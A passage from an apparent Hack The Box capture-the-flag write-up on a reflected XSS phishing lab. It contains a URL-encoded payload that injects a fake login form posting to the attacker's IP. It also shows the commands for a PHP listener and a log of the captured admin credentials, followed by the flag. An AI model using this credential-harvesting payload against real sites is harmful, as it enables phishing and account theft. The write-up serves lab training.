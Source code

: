 We'll store the file in a directory made in `tmp`, let's follow these steps:

```bash
mkdir /tmp/tmpserver  
cd /tmp/tmpserver  
nano index.php # Paste php code  
sudo php -S 0.0.0.0:80
```

Nice, let's proceed

### Getting the credentials

***

We can now go to `/send.php` and send the URL created at step one, in this case, mine was:

```
http://10.129.147.238/phishing/index.php?url=document.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.15.141%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3B
```

Once we do, we'll get the following credentials on our php server:

```
[Thu Jan 30 22:34:53 2025] PHP 8.3.15 Development Server (http://0.0.0.0:80) started
[Thu Jan 30 22:37:44 2025] 10.129.147.238:59210 Accepted
[Thu Jan 30 22:37:44 2025] 10.129.147.238:59210 [302]: GET /?username=admin&password=p1zd0nt57341myp455&submit=Login
[Thu Jan 30 22:37:44 2025] 10.129.147.238:59210 Closing
```

Credentials are: `admin`:`p1zd0nt57341myp455`

We can log in at `/login.php`:

!\[]\(Pasted image 20250130174015.png)

Got the flag: `HTB{r3f13c73d_cr3d5_84ck_2_m3}`
